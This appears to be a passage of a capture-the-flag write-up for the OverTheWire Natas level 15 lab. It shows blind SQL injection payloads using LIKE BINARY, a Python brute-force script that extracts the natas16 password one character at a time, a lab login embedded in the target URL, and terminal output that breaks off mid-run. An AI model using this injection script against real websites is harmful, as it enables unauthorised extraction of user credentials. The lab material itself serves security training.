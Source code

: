 ```
natas16" and password LIKE BINARY "%3%       NO USER, try next character
natas16" and password LIKE BINARY "%W%       USER EXISTS, move on to next character in the password    
natas16" and password LIKE BINARY "%W0%      NO USER, try next character and so forth    
```

```
natas16
This user exists


#!/usr/bin/python

import requests

chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
exist = ''
password = ''
target = 'http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org/index.php'
trueStr = 'This user exists.'

r = requests.get(target, verify=False)

for x in chars:
	r = requests.get(target+'?username=natas16" AND password LIKE BINARY "%'+x+'%" "')
	if r.content.find(trueStr) != -1:
		exist += x
		print 'Using: ' + exist

print 'All characters used. Starting brute force... Grab a coffee, might take a while!'

for i in range(32):
	for c in exist:
		r = requests.get(target+'?username=natas16" AND password LIKE BINARY "' + password + c + '%" "')
		if r.content.find(trueStr) != -1:
			password += c
			print 'Password: ' + password + '*' * int(32 - len(password))
			break

print 'Completed!'

root@kali:~# ./brute.py
Using: 0
Using: 03
Using: 035
Using: 0356
Using: 03569
Using: 03569a
Using: 03569ac
Using: 03569ace
Using: 03569aceh
Using: 03569acehi
Using: 03569acehij
Using: 03569acehijm
Using: 03569acehijmn
Using: 03569acehijmnp
Using: 03569acehijmnpq
Using: 03569acehijmnpqt
Using: 03569acehijmnpqtw
Using: 03569acehijmnpqtwB
Using: 03569acehijmnpqtwBE
Using: 03569acehijmnpqtwBEH
```